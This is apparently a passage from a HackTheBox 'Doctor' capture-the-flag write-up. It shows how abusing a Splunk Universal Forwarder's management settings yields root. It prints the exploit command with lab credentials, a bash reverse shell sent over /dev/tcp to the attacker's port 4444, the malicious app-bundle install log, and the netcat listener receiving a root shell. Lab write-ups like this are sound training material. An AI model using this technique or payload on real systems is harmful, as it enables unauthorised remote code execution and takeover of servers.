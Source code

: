 This blog is explaining a technique that temporarily changes the `Splunk UF` settings to make it use an attacker controlled server, allowing the attacker to deploy any malicious application to be run as the user running the `Splunk` service. 

Copy the code into your own python script or clone the repo, and run the script providing a reverse-shell payload from [`PayloadAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp).

>Don't forget to setup the listener!

```shell
$ python3 ape.py --host 10.10.10.209 --lhost 10.10.xx.xx --username 'shaun' --password 'Guitar123' --payload 'bash -c "bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1"' --payload-file "runme.sh"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpjfongrmj.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.xx.xx:8181/
10.10.10.209 - - [18/Oct/2020 14:03:31] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```

```shell
kali@kali:~/Documents/HackTheBox/doctor$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.10.209] 54856
bash: cannot set terminal process group (1134): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id && uname -a 
id && uname -a
uid=0(root) gid=0(root) groups=0(root)
Linux doctor 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@doctor:/#
```
GG!

🤘💀🤘
